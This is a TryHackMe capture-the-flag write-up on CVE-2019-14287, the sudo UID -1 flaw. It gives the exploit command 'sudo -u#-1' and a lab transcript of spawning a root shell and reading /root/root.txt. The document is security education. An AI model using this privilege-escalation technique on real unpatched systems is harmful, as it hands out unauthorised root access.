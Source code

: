 ```yaml
---
title: "TryHackMe - Sudo Security Bypass"
categories:
  - TryHackMe
tags:
  - linux
  - cve
  - exploit
  - writeup
  - tryhackme
  - hacking
  - sudo 
---
```

A tutorial room exploring CVE-2019-14287 in the Unix Sudo Program. Room One in the SudoVulns Series

## Security Bypass
- CVE-2019-14287 is a vulnerability found in the Unix Sudo program.
- Joe Vennix found that if you specify a UID of -1 (or its unsigned equivalent: 4294967295), Sudo would incorrectly read this as being 0 (i.e. root).
    - Command: 
        ```bash
        $ sudo -u#-1 <command>
        ```

#### What command are you allowed to run with sudo?
```bash
tryhackme@sudo-privesc:~$ sudo -l
Matching Defaults entries for tryhackme on sudo-privesc:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tryhackme may run the following commands on sudo-privesc:
    (ALL, !root) NOPASSWD: /bin/bash
```

#### What is the flag in /root/root.txt?
```bash
tryhackme@sudo-privesc:~$ sudo -u#-1 /bin/bash
root@sudo-privesc:~# cat /root/root.txt
THM{REDACTED}
root@sudo-privesc:~#
```